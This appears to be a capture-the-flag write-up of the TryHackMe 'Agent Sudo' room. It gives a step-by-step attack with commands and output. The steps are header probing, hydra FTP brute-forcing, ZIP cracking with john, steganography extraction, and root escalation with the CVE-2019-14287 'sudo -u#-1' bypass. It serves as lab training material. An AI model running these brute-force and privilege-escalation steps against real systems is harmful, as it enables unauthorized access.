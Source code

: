 ```yaml
---
title: TryHackMe | Agent Sudo
author: Zeropio
date: 2022-09-29
categories: [TryHackMe, Rooms]
tags: [thm, linux]
permalink: /tryhackme/agent-sudo
---
```


# Foothold

The nmap show:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
```

We can see a difference in the page if we sent `R` as the **user-agent**:

```console
zero@pio$ curl 'http://10.10.191.204/'

	<!DocType html>
	<html>
	<head>
	        <title>Annoucement</title>
	</head>
	
	<body>
	<p>
	        Dear agents,
	        <br><br>
	        Use your own <b>codename</b> as user-agent to access the site.
	        <br><br>
	        From,<br>
	        Agent R
	</p>
	</body>
	</html>
```

```console
zero@pio$ curl 'http://10.10.191.204/' -A 'R'
	What are you doing! Are you one of the 25 employees? If not, I going to report this incident
	<!DocType html>
	<html>
	<head>
	        <title>Annoucement</title>
	</head>
	
	<body>
	<p>
	        Dear agents,
	        <br><br>
	        Use your own <b>codename</b> as user-agent to access the site.
	        <br><br>
	        From,<br>
	        Agent R
	</p>
	</body>
	</html>
```

Testing some **User-agent** we can see a redirection for `User-agent: C`:

```console
zero@pio$ curl -I 'http://10.10.191.204/' -H 'User-agent: C' 
	HTTP/1.1 302 Found
	Date: Thu, 29 Sep 2022 17:44:11 GMT
	Server: Apache/2.4.29 (Ubuntu)
	Location: agent_C_attention.php
	Content-Type: text/html; charset=UTF-8
```

Let’s follow  it:

```console
zero@pio$ curl -iL 'http://10.10.191.204/' -H 'User-agent: C' 
	HTTP/1.1 200 OK
	Date: Thu, 29 Sep 2022 17:44:51 GMT
	Server: Apache/2.4.29 (Ubuntu)
	Vary: Accept-Encoding
	Content-Length: 177
	Content-Type: text/html; charset=UTF-8
	
	Attention chris, <br><br>
	
	Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>
	
	From,<br>
	Agent R
```

---

# Fingerprint

Let’s try bruteforcing with this user the ftp:

```console
zero@pio$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.191.204

	[21][ftp] host: 10.10.191.204   login: chris   password: crystal
```

Inside the ftp we found three files, two images and a txt saying that there is a password inside of the images. We can see that one of them have a ZIP:

```console
zero@pio$ binwalk cutie.png 

	DECIMAL       HEXADECIMAL     DESCRIPTION
	--------------------------------------------------------------------------------
	0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
	869           0x365           Zlib compressed data, best compression
	34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
	34820         0x8804          End of Zip archive, footer length: 22

                                                                                                                                           
zero@pio$ binwalk cute-alien.jpg 

	DECIMAL       HEXADECIMAL     DESCRIPTION
	--------------------------------------------------------------------------------
	0             0x0             JPEG image data, JFIF standard 1.01
```

We can get the ZIP as:

```console
zero@pio$ binwalk cutie.png -e
zero@pio$ cd _cutie.png.extracted
zero@pio$ ll
	-rw-r--r-- 1 zeropio zeropio 279312 Sep 29 18:54 365
	-rw-r--r-- 1 zeropio zeropio  33973 Sep 29 18:54 365.zlib
	-rw-r--r-- 1 zeropio zeropio    280 Sep 29 18:54 8702.zip
	-rw-r--r-- 1 zeropio zeropio      0 Oct 29  2019 To_agentR.txt
```

Let’s try getting the ZIP password:

```console
zero@pio$ zip2john 8702.zip
zero@pio$ john hash --wordlist=/usr/share/wordlists/rockyou.txt

	alien            (8702.zip/To_agentR.txt)
```

Inside we found the file `To_agentR.txt`{: .filepath} with the contents:

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

We can decode it:

```console
zero@pio$ echo "QXJlYTUx" | base64 -d
	Area51
```

We can use this password with `steghide`:

```console
zero@pio$ steghide extract -sf cute-alien.jpg 
	Enter passphrase: 
	wrote extracted data to "message.txt".
```

There we can found:

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

We can now login as ssh.

---

# Privilege Escalation

We can see some weird privileges:

```console
zero@pio$ sudo -l
	Matching Defaults entries for james on agent-sudo:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User james may run the following commands on agent-sudo:
	    (ALL, !root) /bin/bash
```

We found this [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287). We can easily exploit it with:

```console
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
	root
```